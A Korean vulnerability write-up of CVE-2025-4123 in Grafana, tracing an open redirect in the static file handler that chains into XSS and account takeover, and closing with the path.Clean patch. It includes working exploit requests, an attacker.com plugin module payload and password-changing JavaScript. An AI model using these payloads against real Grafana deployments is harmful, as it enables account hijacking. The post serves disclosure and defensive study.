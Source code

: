 ```yaml
---
title: "[하루한줄] CVE-2025-4123 Grafana의 Open Redirect를 통한 XSS"
author: empty
tags:  [Grafana, Open Redirect, XSS, Account Takeover]
categories: [1day1line]
date: 2025-06-14 20:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://nightbloodz.github.io/grafana-CVE-2025-4123/

## Target

- Grafana 11.6.x < 11.6.2
- Grafana 11.5.x < 11.5.5
- Grafana 11.4.x < 11.4.5
- Grafana 11.3.x < 11.3.7
- Grafana 11.2.x < 11.2.10
- Grafana < 10.4.19

## Explain

Grafana에는 정적 리소스를 처리하는 함수 **`staticHandler`**에서 클라이언트 요청에 따라 특정 경로에 존재하는 파일을 응답합니다. 이때, **`opt.FileSystem.Open(file)`**를 통해 파일일 경우 Content를 응답하고 파일이 아닌 디렉토리일 경우 인덱스 파일을 응답하기 위해 Redirect를 수행합니다.

이 과정에서 클라이언트의 요청 경로에 대한 검증이 적절히 이루어지지 않아 **Open Redirect 취약점이 발생하며, 이를 XSS와 연계하면 Account Takeover**까지 이어집니다.

```go
func staticHandler(ctx *web.Context, log log.Logger, opt StaticOptions) bool {
  // URL의 path 파싱
	file := ctx.Req.URL.Path
  ...
  // path 파일 핸들 오픈
	f, err := opt.FileSystem.Open(file) 
	if err != nil {
		return false
	}
	...
	// 파일 정보 확인 (디렉토리, 파일, 심볼릭 링크 등)
	fi, err := f.Stat()
	if err != nil {
		return true
	}
  ...
  // 디렉토리일 경우
	if fi.IsDir() {
		if !strings.HasSuffix(ctx.Req.URL.Path, "/") {
			path := fmt.Sprintf("%s/", ctx.Req.URL.Path)
			if !strings.HasPrefix(path, "/") {
				path = fmt.Sprintf("/%s", path)
			} else {
				rePrefix := regexp.MustCompile(`^(?:/\\|/+)`)
				path = rePrefix.ReplaceAllString(path, "/")
			}
			// Open Redirect 발생
			http.Redirect(ctx.Resp, ctx.Req, path, http.StatusFound)
			return true
		}
```

### Open Redirect

Open Redirect가 발생하는 로직 **`http.Redirect()`**에 도달하기 위해선 **`opt.FileSystem.Open(file)`**에서 file 변수에 담긴 경로가 파일 시스템 내에 존재해야 하며 **`fi.IsDir()`**조건문에 진입할 수 있어야 합니다.

따라서, **`http.Redirect()`**와 **`opt.FileSystem.Open(file)`**두 함수에서 활용 가능하게끔 요청 경로를 조작하여야 하며 이때 중요한 건 **`?`**를 URL 인코딩한 **`%3f`** 입니다.

```
[요청]
GET /public/../\attacker.com/%3f/../../../../../.. HTTP/1.1
Host: 192.168.100.2:3000

[응답]
HTTP/1.1 302 Found
Location: /\attacker.com/?/../../../../../../
```

- opt.FileSystem.Open(file)는 위 경로를 해석할 때, 4번의 ../를 수행하여 “”를 가리킵니다. 이에 따라 코드 상에서는 /staticfiles/etc/etc/ 경로의 파일 핸들을 오픈합니다.
- fi.IsDir()에서는 True가 반환되며 if문으로 진입합니다.
- http.Redirect(path)는 Location을 위한 문자열 처리를 할 때, **`%3f`**를 기준으로 Path와 Raw Query로 구분하여 분리를 한 뒤 문자열을 처리하기 때문에 사용자에게 **`/\attacker.com/%3f/../../../../`**를 Location 헤더에 담아 전송합니다.

![image.png](CVE-2025-4123/1.png)

### XSS

Grafana는 프론트엔드에서 플러그인 앱 내용을 확인하는 경로 **`/a/{plugin-app-name}/explore`**가 존재합니다. 브라우저 상에서 해당 경로로 요청을 할 경우 Grafana의 프론트엔드의 JS는 **`{plugin-app-name}`**를 추출하여 **`/api/plugins/{pugin-app-name}/settings`**로 **`fetch`**합니다**.**

그 뒤, “module” 필드에 정의되어 있는 JS를 실행합니다.

```json
{
    "name": "plugin-app",
    "type": "app",
    "id": "plugin-app",
    "enabled": true,
    "pinned": true,
    "autoEnabled": true,
    "module": "/modules/..../plugin-app.js", //js file to load
    "baseUrl": "public/plugins/grafana-lokiexplore-app",
    "info": {
        "author": {
            "name": "Grafana"
            ...
        }
    }
    ...
```

따라서, Open Redirect를 수행하는 경로를 URL 인코딩하여 다음과 같이 구성한 뒤, 악성 module을 응답할 수 있도록 구성합니다.

- /a/**`..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23`**/explore

```json
{
    "name": "ExploitPluginReq",
    "type": "app",
    "id": "grafana-lokiexplore-app",
    "enabled": true,
    "pinned": true,
    "autoEnabled": true,
    "module": "http://attacker.com/file?js=file",
    "baseUrl": "public/plugins/grafana-lokiexplore-app",
    "info": {
        "author": {...}
    }
    ...
}

```

> https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js
> 

module에서 **`http://attacker.com/file?js=file`** 가 호출되면, 패스워드를 변경하는 js를 응답하며 Account Takeover가 수행됩니다.

```json
fetch("/api/user", {
  method: "PUT",
  headers: {
    "x-grafana-device-id": "3b3353978aa55a04cd5b130d126adfee",
    "User-Agent":
      "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36",
    Accept: "application/json, text/plain, */*",
    "Content-Type": "application/json",
    "x-grafana-org-id": "1",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "en-US,en;q=0.9",
    // Note: 'Cookie' headers are restricted by browsers in JavaScript fetch
  },

  body: JSON.stringify({
    name: "pwned",
    email: "pwned@pwned.com",
    login: "pwned",
  }),

  credentials: "include", // if you want cookies like grafana_session to be sent
})
  .then((response) => response.json())
  .then((data) => console.log(data))
  .catch((error) => console.error("Error:", error));

alert("account pwned");
```

> https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js
> 

![image.png](CVE-2025-4123/2.png)

## 취약점 패치

Redirect를 수행하기 전 **`path.Clean`** 을 통해 **`../`,** `./`, **`중복 /`** 를 제거하여 opt.FileSystem.Open과 동일한 정규화를 수행하여 불일치되지 않도록 패치 했습니다.

```go
@@ -159,16 +159,17 @@ func staticHandler(ctx *web.Context, log log.Logger, opt StaticOptions) bool {
        if fi.IsDir() {
                // Redirect if missing trailing slash.
                if !strings.HasSuffix(ctx.Req.URL.Path, "/") {
-                       path := fmt.Sprintf("%s/", ctx.Req.URL.Path)
-                       if !strings.HasPrefix(path, "/") {
+                       redirectPath := path.Clean(ctx.Req.URL.Path)
+                       redirectPath = fmt.Sprintf("%s/", redirectPath)
+                       if !strings.HasPrefix(redirectPath, "/") {
                                // Disambiguate that it's a path relative to this server
-                               path = fmt.Sprintf("/%s", path)
+                               redirectPath = fmt.Sprintf("/%s", redirectPath)
                        } else {
                                // A string starting with // or /\ is interpreted by browsers as a URL, and not a server relative path
                                rePrefix := regexp.MustCompile(`^(?:/\\|/+)`)
-                               path = rePrefix.ReplaceAllString(path, "/")
+                               redirectPath = rePrefix.ReplaceAllString(redirectPath, "/")
                        }
-                       http.Redirect(ctx.Resp, ctx.Req, path, http.StatusFound)
+                       http.Redirect(ctx.Resp, ctx.Req, redirectPath, http.StatusFound)
                        return true
                }
```

> https://github.com/grafana/grafana/commit/c7a690348df761d41b659224cbc50a46a0c0e4cc
